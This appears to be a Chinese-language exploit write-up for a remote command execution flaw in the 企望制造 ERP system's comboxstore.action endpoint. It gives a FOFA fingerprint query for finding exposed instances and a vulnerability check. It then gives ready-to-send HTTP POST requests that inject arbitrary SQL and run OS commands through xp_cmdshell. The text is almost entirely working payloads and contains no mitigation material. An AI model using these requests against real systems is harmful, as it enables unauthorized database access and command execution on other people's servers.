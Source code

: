 # 企望制造 ERP comboxstore.action 远程命令执行漏洞

## 网络测绘

fofa: app="企望-ERP系统" || title="企望制造ERP系统"

## POC / EXP

```
/mainFunctions/comboxstore.action
返回 {'data':[]} 存在漏洞
```

```
# SQL
POST /mainFunctions/comboxstore.action HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: 

comboxsql=select%20@@version;
```

```
# xp_cmdshell
POST /mainFunctions/comboxstore.action HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: 

comboxsql=exec%20xp_cmdshell%20'whoami'
```